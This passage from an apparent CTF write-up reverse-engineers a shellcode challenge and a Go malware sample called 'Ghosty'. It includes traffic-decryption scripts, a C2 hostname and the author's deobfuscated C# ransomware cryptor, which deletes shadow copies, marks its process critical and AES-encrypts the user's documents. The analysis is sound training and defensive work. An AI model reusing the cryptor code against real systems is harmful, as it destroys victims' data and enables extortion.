\x00\x00\x89H$D\xff \xd0U\x83H0\xc4\x8bHH\x1b}\x8d\xeb\xf0\x08,\x00\x02\x10\x00\x00f \x00\x00\x00S\x00C33R_TEK_YODTNT_LE_LNAOYEN!!!!H!5\x8d\xff\xcd\xff\xff\x83H0
\xec\x89HH\xd9\xf2\x89\xc7I,\xc0\x00\x00I\x00\xc1\xc7\x00\x00\x00\x00\xc7H$D\x01 \x00\x00H\x00|\x89($U\xffH\xd8\xc4\x83L0\'\x8b\x83H \xec\xc7H\x00\xc1\x00\x00H
\x00\xc2\xc7\x10\x00\x00\x00\xc7I\x00\xc0\x00\x10I\x00\xc1\xc7\x00\x04\x00\x00U\xffH\xc0\xc4\x83H \xc7\x89\x00\xe9\x00\x02\x9d\x00\x9d@\x95\x1c\x89 \x89\xcb\xbb
\xb0b\xa8\xbb7\xdc\x83\xab7MC\xcbzx\xd1\x00\xc3V\xec!\xc4\xe6\x94\xaa6\x84\x95\xff\x94m\x00\x88\xf1m\xb0\x07\xfar/\x0e\xb7K\xc7\xe3(y\xb90\xb0k\x0c\xea<\xf0\xf6
\xbd\x80*2\x06\x8e1\xf7\x18\x1fL*\xac\xfcc\xe5\xf7\x9d\x156\x04>\xe1\xf0(;L\x90\xa4A\xbf\xe5c;zl\x0e\xe2XLW\x80\t\xc0\xed\xc8\xa0\x03\x07\xf2\xfb\x86\xa1>
\x1bjRH\xe3^c{\xbd\rp\xaf6*\x00\xc9\xbf\x80My\xab\xd5\xad\x98x\xec\xe3\x91\x13\xe4\xe2\xd8\xe3\xb2\x0e\x11\xb4\x1e\xf9y\xab4Y=N\xb3\xb2\xfc\x0e\xc0\xb9\xfb
\xd3c<C\x86\x107\x1d\xf4=\x7fv\xce\xff\x9f\xc41\x80i \xab\x86\xb4P\xbc\x15\xde\xb21\xb2=\x0cO\xbbd\x9e\xe5\x81\x08*B\xae\xb4\xe9\xb0\xc6\x80\x07\x0fj\x94
\xd1\r\xd2\x86\xc8\xf6B\xaaX\x9ay\xc8\xaay\xb4\xc3c\x04\xe0\x16\xb5G\xc3\x9f;\xb2)\x0f\xce#,W\xdaqrk\xccPm\x9e\x06\x98L\x1e\xe6\xda\xcc:n&e\xcd\x06\x83?
\x9c%\x95\x9a!\xd0\xd3@\xe5\x0c\x11\xf1h9\xa2\xfd\xe0\xfc)\x17\x82\xcd\xb7c\x00\x95hi\xfb\n\xe69-0u^\tL\xd7\xf0:\x91j\x1e\x92I\xc0I$8U\xbfi\x00L\xb3\x0b
\x17\xa6Y!\x8c}\x9e~\xfe.\xddv\x9e\xb3\xfe\xd0C8GU:\xba\x0c|8\xb8\x82\xf4L\xa9\x88\x93"\xc4\xa8jK\xc0\x9c\\\xd5\xb0\x93\x9f\xd5\xb2\xa5\x94ZU\xce\xb8A\x7f_f
\x15\x16+A\xfe\xa7\xde\xf5;Z3\xb4&\xdaC\x9d_\xa8\xa5|9L\xa8\x9d\x99\x17\xb5`\x1d\x17\xc7\xd9\x12\x84\x0b%F\x8b\x7f\xbb(\xaf\xa8\x81`\xc3S\xf8\xe9w\xb8\xea
\xdd\xe8#\x81\x99l\x04\xb1\xe5\xb5\x86g\x94\x8f\xd3\x083\xb8\x02\x16\xf05\x17\xb8\xe7u\xa5\xea\x9e\x1f\x1c)\xb4\'7j\xd0.W|\xc3\x85\x13\xf7E\xb1\x01(E
\xf6\x84\x02i\xc71k"&\xb1\xe3\x7f\xb0\xc9\x89\xf9\xdb\x08\x18\x8aH\xda\xc1\xc7\x02\x00\x00\x00\x8dH\xf25\xff\xfd\xf3\xffH\xa4\xc7\x89\x8dH\xf8]\x03\xc7\x02
\x00\x00\x00\x83H0\xec\x89LH\xe1\xc2\xc7\x00\x00\x00\x00\xc7I\x01\xc0\x00\x00I\x00\xc1\xc7\x00\x00\x00\x00\x89H$|H \\\x89($U\xffH\xe0\xc4\x83H0]\x8dH\xf8\xec
\x83H \xf9\x89\xc7H\x00\xc2\x00\x10I\x00\xc0\xc7\x00 \x00\x00\x89I\xff\xd9\xc8U\x83H \xc4\x8bH\xb0M\x8bH\xb8U\xd7\xff\xc3\xc9\x00\x00\x00\x00'
```


And it's the case : 
- `eknrle23d.ll`
- `biMrcsofo tnEahcndeR ASa dnA SEC yrtpgoarhpciP `
- `C33R_TEK_YODTNT_LE_LNAOYEN!!!!H!5`


But it's clearly not perfect. Let's decode it with little endian in mind. And, here we go !


```
b'UH\x89\xe5H\x83\xecPH\x8b\x05\xe1\xff\xff\xffH\x89E\xb0H\x8b\x05\xde\xff\xff\xffH\x89E\xb8H\x83\xec \xeb\rkernel32.dll\x00H\x8d\r\xec\xff\xff\xff\xffU
\xb0H\x83\xc4 H\x89\xc3H\x83\xec H\x89\xd9\xeb\rVirtualAlloc\x00H\x8d\x15\xec\xff\xff\xff\xffU\xb8H\x83\xc4 H\x89E\xc0H\x83\xec H\x89\xd9\xeb\x0fVirtualProtect
\x00H\x8d\x15\xea\xff\xff\xff\xffU\xb8H\x83\xc4 H\x89E\xc8H\x83\xec \xeb\rAdvapi32.dll\x00H\x8d\r\xec\xff\xff\xff\xffU\xb0H\x83\xc4 H\x89\xc3H\x83\xec H
\x89\xd9\xeb\x15CryptAcquireContextA\x00H\x8d\x15\xe4\xff\xff\xff\xffU\xb8H\x83\xc4 H\x89E\xd0H\x83\xec H\x89\xd9\xeb\x0fCryptImportKey\x00H\x8d\x15\xea
\xff\xff\xff\xffU\xb8H\x83\xc4 H\x89E\xd8H\x83\xec H\x89\xd9\xeb\rCryptDecrypt\x00H\x8d\x15\xec\xff\xff\xff\xffU\xb8H\x83\xc4 H\x89E\xe0H\x8d]\xe8H\x83
\xec0H\x89\xd9H\xc7\xc2\x00\x00\x00\x00\xeb6Microsoft Enhanced RSA and AES Cryptographic Provider\x00L\x8d\x05\xc3\xff\xff\xffI\xc7\xc1\x18\x00\x00\x00H
\xb8\x00\x00\x00\xf0\x00\x00\x00\x00H\x89D$ \xffU\xd0H\x83\xc40H\x8b\x1bH\x8d}\xf0\xeb,\x08\x02\x00\x00\x10f\x00\x00 \x00\x00\x00S3CR3T_KEY_DONT_TELL_ANYONE!!!!!
H\x8d5\xcd\xff\xff\xffH\x83\xec0H\x89\xd9H\x89\xf2I\xc7\xc0,\x00\x00\x00I\xc7\xc1\x00\x00\x00\x00H\xc7D$ \x01\x00\x00\x00H\x89|$(\xffU\xd8H\x83\xc40L\x8b
\'H\x83\xec H\xc7\xc1\x00\x00\x00\x00H\xc7\xc2\x00\x10\x00\x00I\xc7\xc0\x00\x10\x00\x00I\xc7\xc1\x04\x00\x00\x00\xffU\xc0H\x83\xc4 H\x89\xc7\xe9\x00\x02
\x00\x00\x9d@\x9d\x1c\x95 \x89\xcb\x89\xb0\xbb\xa8b7\xbb\x83\xdc7\xabCMz\xcb\xd1x\xc3\x00\xecV\xc4!\x94\xe66\xaa\x95\x84\x94\xff\x00m\xf1\x88\xb0m\xfa
\x07/r\xb7\x0e\xc7K(\xe3\xb9y\xb00\x0ck<\xea\xf6\xf0\x80\xbd2*\x8e\x06\xf71\x1f\x18*L\xfc\xac\xe5c\x9d\xf76\x15>\x04\xf0\xe1;(\x90LA\xa4\xe5\xbf;clz\xe2
\x0eLX\x80W\xc0\t\xc8\xed\x03\xa0\xf2\x07\x86\xfb>\xa1j\x1bHR^\xe3{c\r\xbd\xafp*6\xc9\x00\x80\xbfyM\xd5\xab\x98\xad\xecx\x91\xe3\xe4\x13\xd8\xe2\xb2\xe3
\x11\x0e\x1e\xb4y\xf94\xab=Y\xb3N\xfc\xb2\xc0\x0e\xfb\xb9c\xd3C<\x10\x86\x1d7=\xf4v\x7f\xff\xce\xc4\x9f\x801 i\x86\xabP\xb4\x15\xbc\xb2\xde\xb21\x0c=\xbbO
\x9ed\x81\xe5*\x08\xaeB\xe9\xb4\xc6\xb0\x07\x80j\x0f\xd1\x94\xd2\r\xc8\x86B\xf6X\xaay\x9a\xaa\xc8\xb4yc\xc3\xe0\x04\xb5\x16\xc3G;\x9f)\xb2\xce\x0f,#\xda
Wrq\xcckmP\x06\x9eL\x98\xe6\x1e\xcc\xdan:e&\x06\xcd?\x83%\x9c\x9a\x95\xd0!@\xd3\x0c\xe5\xf1\x119h\xfd\xa2\xfc\xe0\x17)\xcd\x82c\xb7\x95\x00ih\n\xfb9\xe60
-^uL\t\xf0\xd7\x91:\x1ejI\x92I\xc08$\xbfU\x00i\xb3L\x17\x0bY\xa6\x8c!\x9e}\xfe~\xdd.\x9ev\xfe\xb3C\xd0G8:U\x0c\xba8|\x82\xb8L\xf4\x88\xa9"\x93\xa8\xc4Kj
\x9c\xc0\xd5\\\x93\xb0\xd5\x9f\xa5\xb2Z\x94\xceUA\xb8_\x7f\x15f+\x16\xfeA\xde\xa7;\xf53Z&\xb4C\xda_\x9d\xa5\xa89|\xa8L\x99\x9d\xb5\x17\x1d`\xc7\x17\x12
\xd9\x0b\x84F%\x7f\x8b(\xbb\xa8\xaf`\x81S\xc3\xe9\xf8\xb8w\xdd\xea#\xe8\x99\x81\x04l\xe5\xb1\x86\xb5\x94g\xd3\x8f3\x08\x02\xb8\xf0\x16\x175\xe7\xb8\xa5u
\x9e\xea\x1c\x1f\xb4)7\'\xd0jW.\xc3|\x13\x85E\xf7\x01\xb1E(\x84\xf6i\x021\xc7"k\xb1&\x7f\xe3\xc9\xb0\xf9\x89\x08\xdb\x8a\x18\xdaH\xc7\xc1\x00\x02\x00
\x00H\x8d5\xf2\xfd\xff\xff\xf3\xa4H\x89\xc7H\x8d]\xf8\xc7\x03\x00\x02\x00\x00H\x83\xec0L\x89\xe1H\xc7\xc2\x00\x00\x00\x00I\xc7\xc0\x01\x00\x00\x00I\xc7
\xc1\x00\x00\x00\x00H\x89|$ H\x89\\$(\xffU\xe0H\x83\xc40H\x8d]\xf8H\x83\xec H\x89\xf9H\xc7\xc2\x00\x10\x00\x00I\xc7\xc0 \x00\x00\x00I\x89\xd9\xffU\xc8H
\x83\xc4 H\x8bM\xb0H\x8bU\xb8\xff\xd7\xc9\xc3\x00\x00\x00\x00'
```


With the strings analysis, we find that they used the Microsoft Cryptographic API and we found a key : `S3CR3T_KEY_DONT_TELL_ANYONE!!!!!` with a length of 32 characters, so it's AES256.  
The steps are


1. `CryptAcquireContextA`
2. `CryptImportKey`
3. `CryptDecrypt`


But here, there is missing an important information : the AES-encrypted blob index !


As we can't find it with iexplore, we will find it with 💪 bruteforce 💪 !  
As the key is at the beginning of the binary, we will search after it.


We will use this python wrapper for the api : https://github.com/crappycrypto/wincrypto.


As I don't know how to get a AESKey object with my key, I will generate one with `CryptDeriveKey` and modify it with the challenge key.


```python
from binascii import unhexlify
from wincrypto import *
from wincrypto.constants import *


key = b"S3CR3T_KEY_DONT_TELL_ANYONE!!!!!"
data = unhexlify("488D35CDFFFFFF4883EC304889D94889F249C7C02C00000049C7C10000000048C74424200100000048897C2428FF55D84883C4304C8B274883EC2048C7C10000000048C7C20010000049C7C00010000049C7C104000000FF55C04883C4204889C7E9000200009D409D1C952089CB89B0BBA86237BB83DC37AB434D7ACBD178C300EC56C42194E636AA958494FF006DF188B06DFA072F72B70EC74B28E3B979B0300C6B3CEAF6F080BD322A8E06F7311F182A4CFCACE5639DF736153E04F0E13B28904C41A4E5BF3B636C7AE20E4C588057C009C8ED03A0F20786FB3EA16A1B48525EE37B630DBDAF702A36C90080BF794DD5AB98ADEC7891E3E413D8E2B2E3110E1EB479F934AB3D59B34EFCB2C00EFBB963D3433C10861D373DF4767FFFCEC49F8031206986AB50B415BCB2DEB2310C3DBB4F9E6481E52A08AE42E9B4C6B007806A0FD194D20DC88642F658AA799AAAC8B47963C3E004B516C3473B9F29B2CE0F2C23DA577271CC6B6D50069E4C98E61ECCDA6E3A652606CD3F83259C9A95D02140D30CE5F1113968FDA2FCE01729CD8263B7950069680AFB39E6302D5E754C09F0D7913A1E6A499249C03824BF550069B34C170B59A68C219E7DFE7EDD2E9E76FEB343D047383A550CBA387C82B84CF488A92293A8C44B6A9CC0D55C93B0D59FA5B25A94CE5541B85F7F15662B16FE41DEA73BF5335A26B443DA5F9DA5A8397CA84C999DB5171D60C71712D90B8446257F8B28BBA8AF608153C3E9F8B877DDEA23E89981046CE5B186B59467D38F330802B8F0161735E7B8A5759EEA1C1FB4293727D06A572EC37C138545F701B1452884F6690231C7226BB1267FE3C9B0F98908DB8A18DA48C7C100020000488D35F2FDFFFFF3A44889C7488D5DF8C703000200004883EC304C89E148C7C20000000049C7C00100000049C7C10000000048897C242048895C2428FF55E04883C430488D5DF84883EC204889F948C7C20010000049C7C0200000004989D9FF55C84883C420488B4DB0488B55B8FFD7C9C300000000")


sha1_hasher = CryptCreateHash(CALG_SHA1)
CryptHashData(sha1_hasher, key)
aes_key = CryptDeriveKey(sha1_hasher, CALG_AES_256)
aes_key.key = key


CryptImportKey(aes_key)
for i in range(len(data)):
    d = data[i:]
    if(len(d) % 16 != 0):
        d = d[:-(len(d)%16)]
    data_d = CryptDecrypt(aes_key,d)
    if b'HTB' in data_d:
      print(i,data_d[data_d.index(b'HTB'):])
        break
```


Run it on Windows :
```
$ python.exe .\solve_sketchy_page.py
6 b'HTB{Sk3tcHy_3xpl0R3r_S1T3}\x00H\x8d\x15\xde\xff\xff\xff\xffU\xb0H\x83\xc4 H\x83\xf8\x00uDH\x83\xec H\xc7\xc1\x00\x00\x00\x00\xeb\x11Congratulations!\x00H\x8d\x15\xe8\xff\xff\xff\xeb\x08Correct\x00L\x8d\x05\xf1\xff\xff\xffI\xc7\xc1\x00\x00\x00\x00\xffU\xa0H\x83\xc4 H\x83\xec \xeb\rkernel32.dll\x00H\x8d\r\xec\xff\xff\xff\xffU\x90H\x83\xc4 H\x89\xc3H\x83\xec H\x89\xd9\xeb\x0cExitProcess\x00H\x8d\x15\xed\xff\xff\xff\xffU\x98H\x83\xc4 H\x89E\xa0H\x83\xec H\xc7\xc1\x00\x00\x00\x00\xffU\xa0H\x83\xc4 \xc9\xc3\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e\x0e'
```


Flag : `HTB{Sk3tcHy_3xpl0R3r_S1T3}`


Moral of the story? `strings` is always the best tool to get flag !


## Rev/Ghosty


- Difficulty: ⭐⭐⭐


This challenge is more complex than the other. It's a realistic golang malware.
Golang is stack based, so we can only see easily static methods during reverse engineering.





In the zip file, we can find:


- `capture.pcapng`, a raw TCP communication over 443 with encryption (but not SSL/TLS) between 2 hosts
- `windows11update.exe`, the go malware
- `your_documents`, a folder which contains a `Confidential.pdf.ghost` file, probably a encrypted which contains the flag.


### Main steps


1. Decrypt communication
2. Analyse it
3. Reverse the cryptor (downloaded by the malware)
4. Find all encryption keys
5. Decrypt the pdf and get the flag


### 1: Decrypt communication


Let's go to decrypt communication between the malware and the c&c. First of all, we have to understand the structure of the malware.


There are 15 main functions:





With go, the decompiler isn't perfect, so you need to look to the assembly too.


#### TCP socket





Here, the malware tries to connect somewhere with a TCP connection. We have 2 inputs with their size:


- `DAT_005530d9`, 3
- `DAT_005560f9`, 17


Double click on them and start to retype data inside ghidra, as we know that parameters must be a string [https://pkg.go.dev/net](https://pkg.go.dev/net).





Do the same for the other (char[0x11]).
Now, we have


- `DAT_005530d9` = `tcp`
- `DAT_005560f9` = `wind0ws11.com:443`


So the URL of the C&C is `wind0ws11.com:443`. This will be useful to fake the server with a local netcat.


After that, we have some strange number : `0x3673663177614f79`. We can suppose that it must be a string.
We have to swap endianess and convert hex to string : https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',8,true)From_Hex('Auto')&input=MHgzNjczNjYzMTc3NjE0Zjc5 => `yOaw1fs6`


#### Encryption scheme


This data (maybe like a ping for the malware) is used into `main.TsPDE4w9RXwcc4r`. Let's go inside.


```c
void main.TsPDE4w9RXwcc4rm
               (undefined8 param_1,undefined **param_2,undefined (*param_3) [16],
               undefined (*param_4) [16],undefined8 param_5)


{
  longlong lVar1;
  longlong in_GS_OFFSET;
  longlong local_res8;
  undefined4 local_res20;
  undefined4 *in_stack_ffffffffffffffd8;
  undefined8 in_stack_ffffffffffffffe0;
  undefined **in_stack_ffffffffffffffe8;
  
  lVar1 = **(longlong **)(in_GS_OFFSET + 0x28);
  if (*(undefined **)(ulonglong *)(lVar1 + 0x10) <= register0x00000020 &&
      (undefined *)register0x00000020 != *(undefined **)(ulonglong *)(lVar1 + 0x10)) {
    main.mUBSP5wQrvrhp5FC
              (lVar1,param_2,param_3,param_4,in_stack_ffffffffffffffe0,in_stack_ffffffffffffffe8);
    local_res20 = (undefined4)in_stack_ffffffffffffffe0;
    runtime.makeslice(in_stack_ffffffffffffffd8,in_stack_ffffffffffffffe8,param_3,param_4);
    *in_stack_ffffffffffffffd8 = local_res20;
    (**(code **)(local_res8 + 0x50))();
    (**(code **)(local_res8 + 0x50))();
    return;
  }
  runtime.morestack_noctxt(lVar1,param_2,param_3,param_4);
  main.TsPDE4w9RXwcc4rm(lVar1,param_2,param_3,param_4,param_5);
  return;
}
```


There are 2 object method calls. It will be hard to find which function is called with static analysis.
Let's put that aside for now and focus on the `mUBSP5wQrvrhp5FC` function.


```c


void main.mUBSP5wQrvrhp5FC
               (undefined8 param_1,undefined **param_2,undefined (*param_3) [16],
               undefined (*param_4) [16],undefined8 param_5,undefined8 param_6)


{
  //[...]
  lVar1 = **(longlong **)(in_GS_OFFSET + 0x28);
  if (*(longlong **)(lVar1 + 0x10) <= &local_48 && &local_48 != *(longlong **)(lVar1 + 0x10)) {
    local_38 = 0x3231363534333231;
    local_30 = 0x3433323136353433;
    local_28 = 0x3635343332313635;
    local_20 = 0x3231363534333231;
    crypto/aes.NewCipher
              (0x3635343332313635,param_2,param_3,param_4,in_stack_ffffffffffffff58,
               in_stack_ffffffffffffff60,in_stack_ffffffffffffff68);
    local_10 = 0x10;
    local_48 = in_stack_ffffffffffffff58;
    crypto/cipher.newGCMWithNonceAndTagSize
              (in_stack_ffffffffffffff58,param_2,param_3,param_4,
               CONCAT88(in_stack_ffffffffffffff60,in_stack_ffffffffffffff58),
               CONCAT88(in_stack_ffffffffffffff70,in_stack_ffffffffffffff68));
    (**(code **)(local_48 + 0x18))(*(code **)(local_48 + 0x18));
    local_40 = in_stack_ffffffffffffff58;
    runtime.makeslice(&DAT_0052aac0,in_stack_ffffffffffffff60,param_3,param_4);
    io.ReadAtLeast(local_40,DAT_0063da68,param_3,param_4,local_40,(undefined **)local_40,
                   in_stack_ffffffffffffff68,in_stack_ffffffffffffff70,in_stack_ffffffffffffff78);
    (**(code **)(local_48 + 0x30))();
    return;
  }
  //[...]
}
```


This function is very interesting because it includes calls to cryptographic functions.
It is already possible to assume that the malware encrypts with AES GCM its communication with the C&C. It makes sense with the content of the pcap file.
The key is very easy to find : 
```
0x3231363534333231
0x3433323136353433
0x3635343332313635
0x3231363534333231


=>


12345612345612345612345612345612
```


As key contains 32 characters, it uses AES256. Moreover, we can find the nonce and block size in the assembly.





The nonce length is 12 and the block size is 16 !


The next interesting part is `io.ReadAtLeast` because of `DAT_0063da68` which is a random generator.
```c
  runtime.newobject();
  DAT_0063da60 = &go.itab.*crypto/rand.rngReader,io.Reader;
  if (_DAT_00670680 == 0) {
    DAT_0063da68 = uStack16;
  }
```
(click on DAT, click the XREF where the addr is written in Ghidra)


It's to create a secure random nonce.


In the function `mUBSP5wQrvrhp5FC`, we have 2 calls to object methods.


The encryption scheme must be AES GCM 256 with a known key and a random nonce.
But we need more information to write a decryptor of communication.


#### Dynamic analysis


We are going to do a dynamic analysis to find the functions that are called and to be able to understand how the data sent to the C&C is designed.


1. Open the 443 port on a windows machine with netcat (or anything else). Don't forget `127.0.0.1 wind0ws11.com` in your host file.
2. Open your debugger (x64dbg for me) and add a breakpoint for each call.
   
(`(**(code **)(local_48 + 0x30))();` inside `mUBSP5wQrvrhp5FC`)
3. Go inside the function
4. Get the address offset
5. Report it on Ghidra
6. Enjoy !


So the `mUBSP5wQrvrhp5FC` is the main encryption routine :
```c


void main._encrypt_data(undefined arg1,undefined arg2,undefined arg3)


{
  //[...]
    local_38 = 0x3231363534333231;
    local_30 = 0x3433323136353433;
    local_28 = 0x3635343332313635;
    local_20 = 0x3231363534333231;
    crypto/aes.NewCipher(200,0x20,0x20);
    local_10 = 0x10;
    local_48 = in_stack_ffffffffffffff58;
    crypto/cipher.newGCMWithNonceAndTagSize
              (in_stack_ffffffffffffff58,in_RDX,in_R8,in_R9,
               CONCAT88(in_stack_ffffffffffffff60,in_stack_ffffffffffffff58),
               CONCAT88(in_stack_ffffffffffffff70,in_stack_ffffffffffffff68));
                    /* call Crypto/Aes gcm NonceSize 0x04965a0 */
    (**(code **)(local_48 + 0x18))(*(code **)(local_48 + 0x18));
    local_40 = in_stack_ffffffffffffff58;
                    /* create a array for the nonce */
    runtime.makeslice(&nonce,in_stack_ffffffffffffff60,in_R8,in_R9);
                    /* Create a secure random nonce */
    io.ReadAtLeast(local_40,rngValue,in_R8,in_R9,local_40,(undefined **)local_40,
                   in_stack_ffffffffffffff68,in_stack_ffffffffffffff70,in_stack_ffffffffffffff78);
                    /* Call Crypto/AESGCM Seal 0x04965e0 */
    (**(code **)(local_48 + 0x30))();
    return;
  //[...]
}


```
```c


/* WARNING: Could not reconcile some variable overlaps */


void main.send_data(undefined8 res_code,undefined **param_2,undefined (*param_3) [16],
                   undefined (*param_4) [16],undefined8 data_len)


{
  //[...]
    main._encrypt_data(local_res18,(undefined)local_res20,(char)data_len);
    local_res20 = local_20;
    runtime.makeslice(local_28,local_18,param_3,param_4);
    *local_28 = local_res20;
                    /* Call Net.tcp/Write 0x05004a0
                       Write the length packet on 4 bytes */
    (**(code **)(local_res8 + 0x50))();
                    /* Call Net.tcp.write 0x05004a0
                       Write the encrypted data (nonce [:24] + encrypted_data [24:]) */
    (**(code **)(local_res8 + 0x50))();
    return;
  //[...]
}
```


Great, we have everything to decrypt the pcap file.
Each packet follows this scheme:


```
SSSSSSSS NNNNNNNNNNNNNNNNNNNNNNNN EEEE...EE


SS = encrypted data size
NN = Nonce
EE = encrypted data
```


Example with the 1st packet in pcap:
```
24000000 b00347dee4399de165d65fde 63efcc30786c4190186a13442e8a8bc6f2272819701ca86c
SSSSSSSS NNNNNNNNNNNNNNNNNNNNNNNN EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE
```


I have modified this script https://gist.github.com/tinti/1afe25d09ed918b4b3cf5bea8632e798 to write a go decryptor:


```golang
package main


import (
  "crypto/aes"
  "crypto/cipher"
  "encoding/hex"
  "flag"
  "fmt"
  "os"
)


func CheckErr(str string, err error) {
  if err != nil {
    fmt.Printf("%s: %s\n", str, err.Error())
    os.Exit(1)
  }
}


func ValidateKeyAndNonce(keyHexStr, nonceHexStr string) ([]byte, []byte, error) {
  key, err := hex.DecodeString(keyHexStr)
  if err != nil {
    return nil, nil, err
  }


  nonce, err := hex.DecodeString(nonceHexStr)
  if err != nil {
    return nil, nil, err
  }


  return key, nonce, nil
}


func Decrypt(key []byte, nonce []byte, cipherHexStr string) (string, error) {
  block, err := aes.NewCipher(key)
  if err != nil {
    return "", err
  }


  aesgcm, err := cipher.NewGCM(block)
  if err != nil {
    return "", err
  }


  cipherText, err := hex.DecodeString(cipherHexStr)
  if err != nil {
    return "", err
  }


  plainText, err := aesgcm.Open(nil, nonce, []byte(cipherText), nil)
  if err != nil {
    return "", err
  }


  return string(plainText), nil
}


func main() {
  keyPtr := flag.String("key", "", "cipher key (hex string)")
  cipherTextPtr := flag.String("ciphertext", "", "ciphertext to decrypt (hex string)")
  flag.Parse()


  key, nonce, err := ValidateKeyAndNonce(*keyPtr, (*cipherTextPtr)[:24])
  CheckErr("validate key/nonce", err)


  plainText, err := Decrypt(key, nonce, (*cipherTextPtr)[24:])
  CheckErr("decrypt", err)


  fmt.Printf("%s\n", plainText)
}
```


Let's try :


```
$ go run decrypt_aes.go -key 3132333435363132333435363132333435363132333435363132333435363132  -ciphertext b00347dee4399de165d65fde63efcc30786c4190186a13442e8a8bc6f2272819701ca86c  
yOaw1fs6
```


Export all strings into a file in hexascii format and launch the decryptor with a python script :


```python
from binascii import hexlify, unhexlify
import os
import subprocess


with open("pcap.txt","rb") as f:
  data=f.read()


data = unhexlify(data)
packets = []
cur_index = 0


while cur_index < len(data):
  len_packet = int.from_bytes(data[cur_index:cur_index+4],'little')
  cur_index += 4
  packets.append(hexlify(data[cur_index:cur_index+len_packet]))
  cur_index += len_packet


for p in packets:
  res = subprocess.run(["go","run","decrypt_aes.go","-key","3132333435363132333435363132333435363132333435363132333435363132","-ciphertext",p.decode('latin1')],stdout=subprocess.PIPE)
  print('----------------------')
  # print(p.decode('latin1'))
  if(b'This program cannot be run in DOS mode' in res.stdout):
    with open("cryptor.exe","wb") as f:
      f.write(res.stdout)
      print("[Exe saved in cryptor.exe]")
  else:
    print(res.stdout.decode('latin1').strip())
```


Output:
```
----------------------
yOaw1fs6
----------------------
rc
----------------------
whoami
----------------------
megacorp\rashley
----------------------
[...]
```


It can be improved with scappy or pyshark.


#### 2: The communication data


You can find all the decrypted string inside [decrypt_aes.txt](ghosty/decrypt_aes.txt).


There is another malware inside, a key seems added to the registry and a GUID is read.


```
[...]
----------------------
wr
----------------------
Service
----------------------
mmgb4UNqb3JWGZm7n7Gt9kTtBm6w9pbVWuah
----------------------
ok
----------------------
la
----------------------
[Exe saved in cryptor.exe]
----------------------
ok
----------------------
[...]
----------------------
rr
----------------------
UpdateKey
----------------------
d31dd518-8614-4162-beae-7a5a2ad86cc6
----------------------
[...]
```


### 3: The cryptor


It's a C# executable, which is simple to reverse with dotPeek (or another tool).


The code is obfuscated. Take some time to read it carefully, it's really simple.
It's my version :


```c#
//[...]
namespace P82CEMnv2rbWVh6Z
{
  internal class Encryptor
  {
    private static byte[] xor_key;
    private static string guid;


    [DllImport("ntdll.dll", SetLastError = true)]
    private static extern int NtSetInformationProcess(
      IntPtr hProcess,
      int processInformationClass,
      ref int processInformation,
      int processInformationLength);


    private static void Main(string[] args)
    {
      Encryptor.xor_key = Encoding.UTF8.GetBytes(args[0]);
      Process.EnterDebugMode();
      Encryptor.netsetinformationprocess_1();
      Encryptor.launch_cmd_vssadmin_shadow_delete();
      Encryptor.guid = Guid.NewGuid().ToString(); // d31dd518-8614-4162-beae-7a5a2ad86cc6
      Encryptor.setValueInRegistry(Encryptor.guid);
      Encryptor.enum_and_crypt_dir(Environment.GetFolderPath(Environment.SpecialFolder.Personal));
      Encryptor.create_zip_yourdocuments();
      Encryptor.netsetinformationprocess_0();
    }


    private static void create_zip_yourdocuments() => ZipFile.CreateFromDirectory(Environment.GetFolderPath(Environment.SpecialFolder.Personal), Environment.GetFolderPath(Environment.SpecialFolder.Desktop) + Encryptor.xor("HSoRAhh4Fz0SRg5aNzkZ"));


    private static void setValueInRegistry(string value) => Registry.SetValue(Encryptor.xor("CRg7LjVkJgAjdi1rBhg5PBw=") + Encryptor.xor("HQARER5QEiAUby5WOj8FCiFVBmAhXUY0Dy8TPRUdJAwlA0pyJCENHgVJLwUYXQdQLj4/CSpSBlk="), Encryptor.xor("FCMaFh5CODcI"), (object) value);


    private static string xor(string input, bool isBase64 = true)
    {
      byte[] numArray = !isBase64 ? Encoding.UTF8.GetBytes(input) : Convert.FromBase64String(input);
      StringBuilder stringBuilder = new StringBuilder();
      for (int index = 0; index < numArray.Length; ++index)
        stringBuilder.Append((char) ((uint) numArray[index] ^ (uint) Encryptor.xor_key[index % Encryptor.xor_key.Length]));
      return stringBuilder.ToString();
    }


    private static bool enum_and_crypt_dir(string docs)
    {
      foreach (string enumerateFile in Directory.EnumerateFiles(docs, "*", SearchOption.AllDirectories))
        Encryptor.crypt_file(enumerateFile, Encryptor.xor(Encryptor.guid, false));
      return true;
    }


    private static void netsetinformationprocess_1()
    {
      int processInformation = 1;
      Encryptor.NtSetInformationProcess(Process.GetCurrentProcess().Handle, 29, ref processInformation, 4);
    }


    private static void netsetinformationprocess_0()
    {
      int processInformation = 0;
      Encryptor.NtSetInformationProcess(Process.GetCurrentProcess().Handle, 29, ref processInformation, 4);
    }


    private static void launch_cmd_vssadmin_shadow_delete()
    {
      Process process = new Process();
      process.StartInfo = new ProcessStartInfo()
      {
        WindowStyle = ProcessWindowStyle.Hidden,
        FileName = Encryptor.xor("Ij4aWQ9fFg=="),
        Arguments = Encryptor.xor("bjBeARlUEjYcWg0RPDUPWQpWHlkCUQgDCDkEDiEbdlEhAVIEbiILHg9T")
      };
      process.Start();
      process.WaitForExit();
    }


    private static byte[] crypto_random()
    {
      byte[] data = new byte[32];
      using (RNGCryptoServiceProvider cryptoServiceProvider = new RNGCryptoServiceProvider())
      {
        for (int index = 0; index < 10; ++index)
          cryptoServiceProvider.GetBytes(data);
      }
      return data;
    }


    private static void crypt_file(string filename, string key)
    {
      byte[] buffer1 = Encryptor.crypto_random();
      FileStream fileStream1 = new FileStream(filename + Encryptor.xor("bzQWGBlT"), FileMode.Create);
      byte[] bytes = Encoding.UTF8.GetBytes(key);
      RijndaelManaged rijndaelManaged = new RijndaelManaged();
      rijndaelManaged.KeySize = 256;
      rijndaelManaged.BlockSize = 128;
      rijndaelManaged.Padding = PaddingMode.PKCS7;
      byte[] salt = buffer1;
      Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(bytes, salt, 50000);
      rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
      rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
      rijndaelManaged.Mode = CipherMode.CFB;
      fileStream1.Write(buffer1, 0, buffer1.Length);
